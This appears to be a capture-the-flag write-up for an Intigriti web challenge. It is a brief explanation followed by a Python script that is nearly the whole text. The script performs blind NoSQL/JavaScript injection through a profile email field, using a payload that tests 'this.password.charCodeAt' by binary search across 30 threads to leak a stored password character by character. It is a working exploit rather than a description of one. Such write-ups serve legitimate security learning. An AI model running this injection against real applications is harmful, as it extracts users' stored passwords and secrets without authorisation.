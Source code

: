 It's easier to use char code to do the binary search. Also, I assumed that we know the length of flag beforehand because it's easier(we can still leak the length first in practical but I am lazy to implement it)

```py
import requests
import json
import concurrent.futures
import string
import time

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

req_count = 0
def leak_flag(index):
  global req_count
  session = requests.session()
  name = 'account_flag_'  + str(index)
  session.post(LOGIN_URL, data={
    "username": name,
    "password": name
  })
  req_count += 1

  L = 33
  R = 126
  linear_mode = False
  while R>=L:
    M = (L+R) // 2
    payload = f'not@not_exist.ext" || (this.password.startsWith("INTIGRITI") && this.password.charCodeAt({index}) >= {M} ) && "" == "'
    print(f"Try leaking flag[{index}], range is {L} to {R}")

    if (R - L <= 1):
      linear_mode = True
      payload = f'not@not_exist.ext" || (this.password.startsWith("INTIGRITI") && this.password.charCodeAt({index}) === {L}  ) && "" == "'
    
    session.post(EDIT_URL, data={
      "email": payload
    })
    resp = requests.get(QUERY_URL + name)
    req_count += 2
    if resp.status_code != 200 or resp.text == 'null' or resp.text == '[]\n':
      if linear_mode: return chr(L+1)
      R = M - 1
    else:
      if linear_mode: return chr(L)
      L = M

start = time.time()
print("leaking flag...")
length = 19
flag = [' '] * length
with concurrent.futures.ThreadPoolExecutor(max_workers=30) as executor:
    futures = {executor.submit(leak_flag, i): i for i in range(length)}
    for future in concurrent.futures.as_completed(futures):
        index = futures[future]
        data = future.result()
        flag[index] = data
        print("".join(flag))
```